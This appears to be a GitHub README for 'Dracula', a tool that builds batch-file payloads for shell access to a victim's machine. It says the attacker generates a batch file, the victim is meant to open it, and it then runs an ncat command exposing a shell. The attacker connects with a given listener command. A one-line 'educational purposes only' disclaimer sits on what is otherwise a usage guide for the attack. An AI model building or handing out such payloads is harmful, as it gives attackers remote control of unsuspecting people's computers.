

**THIS IS ONLY FOR EDUCATIONAL PURPOSES, DO NOT USE THIS FOR ANY ILLEGAL ACTIVITIES**

```
         _____                       _       
        |  __ \                     | |      
        | |  | |_.__ __._  ___ _   _| | __._ 
        | |  | |  __/ _  |/ __| | | | |/ _  |
        | |__| | | | (_| | (__| |_| | | (_| |
        |_____/|_|  \__._|\___|\__._|_|\__._|

```

Dracula is a reverse shell generator built to generate payloads



# How it Works
uses ncat command to give reverse shell access to the attacker once the client opens the batch file.

# How to Use
1. Install nmap (on linux systems)

        sudo apt install nmap 

2. Run the dracula.py file and enter the required info
3. A batch file is generated 

### **Attacker's Side**
Generate payload:

```
Dracula >> -p <TARGET_PORT> -s <SHELL_TYPE> -o <OUTPUT_FILE_NAME>
```

Command to connect to the target machine:

```
Dracula >> -l -i <TARGET_IP> -p <TARGET_PORT>
```
replace the TARGET_IP with ip addr of client and TARGET_PORT with port used in the attack

**NOTE: the port used in above command must be same as the the one used in payload.**

### **Client's Side**
Once the client opens the batch file, following command is executed
```
ncat -l -p PORT -e SHELL 
```